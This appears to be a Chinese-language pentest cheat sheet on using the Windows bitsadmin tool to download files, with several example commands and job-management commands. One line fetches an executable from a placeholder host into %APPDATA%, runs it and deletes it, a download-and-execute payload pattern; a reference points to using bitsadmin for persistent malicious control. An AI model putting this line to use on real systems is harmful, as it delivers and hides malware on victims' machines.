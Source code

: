 bitsadmin命令（只能命令下载到已存在的路径上，win7以上）：



https://xz.aliyun.com/t/1654/

1.```bitsadmin /transfer n http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg e:\a.jpg```  # 带进度条

2.```bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip e:\p.zip```

3.```bitsadmin /rawreturn /transfer getpayload http://download.sysinternals.com/files/PSTools.zip e:\p.zip```

4.带进度条

```bitsadmin /transfer myDownLoadJob /download /priority normal "http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg" "e:\abc.jpg"```

5.多条命令(测试失败)
 
``` 
bitsadmin /create myDownloadJob
bitsadmin /addfile myDownloadJob http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg e:\abc.jpg
bitsadmin /resume myDownloadJob
bitsadmin /info myDownloadJob /verbose
bitsadmin /complete myDownloadJob
```

bitsadmin /list /allusers /verbose  #列出所有任务(如果列所有用户需管理员权限）

bitsadmin /list /verbose         #列出所有任务

bitsadmin /cancel myDownloadJob   #删除某个任务


未知

bitsadmin /transfer d90f <http://site.com/a> %APPDATA%\d90f.exe&%APPDATA%\d90f.exe&del %APPDATA%\d90f.exe


参考

[使用Bitsadmin 命令下载文件](https://www.cnblogs.com/hookjoy/p/6550992.html)

[使用计划任务和bitsadmin实现恶意代码长期控守](https://blog.csdn.net/qq_31481187/article/details/57540231)
